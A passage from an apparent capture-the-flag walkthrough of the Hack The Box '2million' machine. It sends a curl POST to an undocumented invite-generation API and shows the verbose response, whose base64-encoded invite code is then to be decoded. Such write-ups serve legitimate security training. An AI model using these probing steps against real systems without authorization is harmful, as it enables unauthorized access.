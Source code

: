 According to it, we need to make another POST request to the endpoint `/api/v1/invite/generate`

Let's try that!

```bash
curl -v -X POST -d {} http://2million.htb/api/v1/invite/generate
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.161.99
* Trying 10.129.161.99:80...
* Connected to 2million.htb (10.129.161.99) port 80
* using HTTP/1.x
> POST /api/v1/invite/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Content-Length: 2
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 2 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 09 Aug 2025 10:02:43 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=15glilrogk7npdh9a5v0u6d9f8; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"0":200,"success":1,"data":{"code":"MkJEQVQtS0VNNVgtMEdDTFAtSDlaMlU9","format":"encoded"}}%
```

Okay, this time we receive a code that seems to be base64 encoded.

Let's decode it on Cyberchef again.

<img src="./screenshots/5.png" width="80%">
